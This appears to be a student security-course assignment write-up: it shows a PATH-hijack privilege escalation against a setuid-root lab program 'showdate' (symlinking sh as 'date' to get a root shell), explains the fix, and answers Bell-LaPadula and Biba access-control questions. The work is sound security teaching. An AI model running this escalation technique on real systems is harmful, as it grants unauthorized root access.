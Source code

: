 ```yaml
---
title: Assignment 4
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
---
```


\newcommand{\y}{\checkmark}
\newcommand{\n}{$\times$}

# 1
## a
The `showdate` program sets the group and user id to root using `setuid(0)` and `setgid(0)`, then it runs `system("date")`. As the program runs `date` with root privileges, we can start a root shell by substituting `date`.

We can see which system calls `showdate` uses with the `strace` command, here is a complete list:

```
$ strace -f ./showdate 2>&1 | grep -oP "\w+(?=\()" | sort -u
access
arch_prctl
brk
clone
close
execve
exit_group
fcntl
fstat
getegid
geteuid
getgid
getpgrp
getpid
getppid
getuid
ioctl
lseek
mmap
mprotect
munmap
open
openat
prlimit64
read
rt_sigaction
rt_sigprocmask
setgid
setuid
stat
sysinfo
uname
wait4
write
```

## b
We created a symbolic link called `date` in the current directory, to which we have write permissions as a non-privileged user, then we prepended the current directory to the `PATH` environment variable, which is also under out control.

When the `showdate` executable is run, it assumes root privileges due to the `setuid` flag, and the owner of the file being root. It then looks up `date`, which internally uses the `PATH` variable, to which we prepended the directory with the symbolic link to `sh`. Instead of executing the `date` binary as intended, it therefore executes `sh` with root privileges, and we have a root shell.

```sh
hendrik ~/uni/assignment4 % id
uid=1000(hendrik) gid=100(users) groups=100(users), …
hendrik ~/uni/assignment4 % ln -s $(which sh) date && PATH=.:$PATH ./showdate
root ~/uni/assignment4 $ id
uid=0(root) gid=0(root) groups=0(root), …
```

We implemented the attack as a `make` target, so it can simply be executed by running `make exploit`.

## c
During the development of software intended to be run with `setuid-root`, special attention must be payed to not rely on any aspect of the environment controllable by non-root users. This includes environment variables. The attack was possible because the path to `date` was not hardcoded, but it was taken from the environment. We could not alter anything in `/usr/bin`, or `showdate` itself, but we could make the lookup for the `date` executable find what we wanted by altering the `PATH` environment variable, which does not require special privileges.

# 2
## a
We assume that both the Bell-LaPadula, and the Biba rules use weak tranquility. The Bell-LaPadula and Biba levels in the table correspond to the `/usr/bin/someprog` process, *after* the action has been executed.

|action|access allowed|Bell-LaPadula level|Biba level|
|-----:|:------------:|:-----------------:|:--------:|
i|\y|unclassified|trusted
ii|\y|unclassified|system
iii|\n|unclassified|system
iv|\y|unclassified|system
v|\y|confidential|system
vi|\n|confidential|system

Peter's process must not drop below level "application", but Biba disallows read-down, so the process is denied access to `/home/peter/database`, because it requires application "user" or lower to be read. The action iii is disallowed.

Action vi is disallowed, because Biba disallows write-up, and the process has level "system", but it would need "trusted" to be allowed to write `/etc/shadow`. Bell-LaPadula allows write-up, so that is not a problem.

## b
After executing the 6 actions from 2a, the process has level ("confidential", "system"). Bell-LaPadula disallows write-down, so the file may have levels "confidential", "secret", or "top secret", but **not** "unclassified". Biba disallows write-up, so the file may have levels "system", "application", "user", or "untrusted", but **not** "trusted".

`/home/peter/out` may have any level in {"confidential", "secret", "top secret"} $\times$ {"system", "application", "user", "untrusted"}, like, for example, ("confidential", "user") or ("secret", "system").
